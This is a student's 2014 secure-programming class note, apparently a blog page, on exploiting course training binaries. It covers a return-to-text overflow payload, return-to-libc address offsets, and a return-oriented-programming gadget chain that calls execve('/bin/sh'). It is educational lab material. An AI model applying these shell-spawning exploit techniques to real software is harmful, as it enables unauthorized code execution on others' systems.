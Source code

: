 ```yaml
---
title: Secure Programming 2014-11-04
category: note
slug: secure-programming-20141104
date: 2014-11-04
---
```

2014/11/04 Secure Programming Class Note

## foo\_4

Training for "return to text" attack.

-  binsh: 0x0804a030, but actual address is at 0x08048640.
-  system: 0x080483e0

-  `print 'a'*24 + '\xe0\x83\x04\x08' + 'aaaa' + '\x40\x86\x04\x08'`

## foo\_5

Training for "return to libc" attack.

Notice: libc.so is provided

-  `objdump -d libc.so`
   -  00019970 \<__libc_start_main\>:
   -  0003fc40 \<__libc_system\>:
      -  offset: 262d0

Example:

Function: libc_start_main's address is :  0xf75f5970

Function: libc_system's address is : 0xf75f5970 + 0x262d0 = 0xf761bc40

-  `objdump -R foo_5`
   -  0804a01c R_386_JUMP_SLOT   __libc_start_main
-  0804a02c \<binsh\>:
   -  actual address: 08048620

## foo\_6

Training for "return-oriented programming" attack.

-  int 0x80
-  eax: call what kind of system call. See reference for Linux system call
   table.  In this problem we want to call sys_execve, so we should use "11" for
   eax.
-  ebx, ecx: arguments for system call. In this case we put the address of
   "/bin/sh" which is 0x080be568 into ebx and no need of ecx.
-  remember the number of pops, smash the stack

### Gadget 1

-  first gadget: 0x080594ac
-  reset eax to 0 by XOR itself
-  value for `pop ebx`: 0x080be568 (/bin/sh)
-  return address of first gadget: 0x0805cc5c

```nasm
80594ac:       31 c0                   xor    eax,eax
80594ae:       5b                      pop    ebx
80594af:       c3                      ret
```

### Gadget 2

-  second gadget: 0x0805cc5c
-  garbage value for `pop edi`: aaaa
-  return address of second gadget: 0x0805cc5c
-  repeat 11 times to make eax = 0x0000000b
-  last return address of second gadget: 0x0806f0e0

```nasm
805cc5c:       40                      inc    eax
805cc5d:       5f                      pop    edi
805cc5e:       c3                      ret
```

### Gadget 3

third gadget: 0x0806f0e0

```nasm
806f0e0:       cd 80                   int    0x80
806f0e2:       c3                      ret
```

### Failed Gadget

Program received signal SIGSEGV in 0x080db8ce. Still don't know why :(

```nasm
80db8cd:       40                      inc    eax
80db8ce:       02 af 0a 0e 0c 41       add    ch,BYTE PTR [edi+0x410c0e0a]
80db8d4:       c3                      ret
```

Cannot use `pop eax` because 0x0000000b contains 00 which is null. It will
terminate the input string unexpectedly.

```nasm
80e205d:  58                      pop    eax
80e205e:  c3                      ret
```

## Reference

-  [Linux System Call Table](http://docs.cs.up.ac.za/programming/asm/derick_tut/syscalls.html)
